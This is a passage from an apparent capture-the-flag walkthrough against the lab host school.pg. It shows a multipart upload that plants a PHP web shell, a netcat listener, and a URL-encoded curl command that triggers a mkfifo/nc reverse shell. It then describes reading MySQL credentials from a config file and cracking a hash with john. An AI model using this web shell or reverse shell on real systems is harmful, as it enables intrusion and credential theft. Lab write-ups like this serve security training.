 ```c
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="status"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="description"

123123
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="_wysihtml5_mode"

1
-----------------------------183813756938980137172117669544
Content-Disposition: form-data; name="file_name"; filename="cmd.php"
Content-Type: application/octet-stream

<?php system($_GET["cmd"]); ?>
-----------------------------183813756938980137172117669544--
```

The uploaded shell can be found in `http://school.pg/management/uploads/exam_question/cmd.php`.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_6_LO4R6HJI.png)

We setup a listener on our attack machine.

```
kali@kali:~$ nc -nlvp 443
listening on [any] 443 ...
```

We proceed by using `curl` to trigger a reverse shell:

```
$ curl school.pg/management/uploads/exam_question/cmd.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%30%2e%32%2e%32%20%39%30%30%33%20%3e%2f%74%6d%70%2f%66 # rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.2 9003 >/tmp/f
```

Once on the box we discover the `/var/www/html/management/application/config/database.php` file which contains a set of MYSQL credentials.
use
![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_7_PO9IR5NH.png)

After logging into the database, we see a list of tables, and after going through each we discover an entry in the `teacher` database:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_8_WR2EM7LP.png)

We proceed to crack the hash using `john`:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/CTF3_image_9_K7H4FG6N.png)
